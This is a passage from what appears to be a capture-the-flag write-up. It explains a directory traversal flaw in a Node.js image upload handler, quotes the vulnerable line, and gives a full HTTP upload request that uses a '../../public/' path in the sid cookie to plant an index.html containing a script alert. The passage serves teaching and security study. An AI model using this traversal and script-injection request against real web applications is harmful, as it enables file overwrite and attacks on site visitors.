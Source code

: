 ## Exploitation

It's evident from the analysis that the `sid` cookie isn't properly validated in the image upload function, leading to a directory traversal vulnerability. This security flaw allows us to arbitrarily manipulate the directory where uploaded images are stored and allows us to create or overwrite files in any directory where the web application has write permissions.

The vulnerable line in question is:

```javascript
await uploadedFile.mv('./public/${req.cookies.sid}/${uploadedFile.name}');
```

Exploiting this vulnerability involves abusing directory traversal to modify the destination where the uploaded file is stored. By manipulating the `sid` cookie and modifying the uploaded file's name, an attacker can gain full control over the picture's destination, potentially saving it into critical directories like `views` or `public`.

We have tried to overwrite the `index.ejs` template, which is the template used to render the `index`. However, the web server does not reload the new template automatically so it does not work for us.

After several tests, we have identified that we can upload an `index.html` file in the public folder to get the server to serve this file instead of rendering the original index. This way we have managed to execute javascript in the browser when accessing the index of the application.

This request creates an `index.html` page at the root of the web server and executes a javascript alert in the browser:

```http
POST /upload HTTP/1.1
Host: ch16747138482.ch.eng.run
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------86232577512429179423102893155
Origin: http://ch16747138334.ch.eng.run
Connection: close
Referer: http://ch16747138334.ch.eng.run/
Cookie: sid=00e5f7db-fc47-4c7b-ad2c-81defda5ffee/../../public/
Upgrade-Insecure-Requests: 1

-----------------------------86232577512429179423102893155
Content-Disposition: form-data; name="image"; filename="index.html"

<script>alert();</script>

-----------------------------86232577512429179423102893155--
```

At this point we have managed to execute JavaScript code in the admin bot's browser (forcing it to visit a file using `/share`). However, due to the `HttpOnly` flag in `sid` cookie we were unable to steal its secret so we cannot access the flag either.
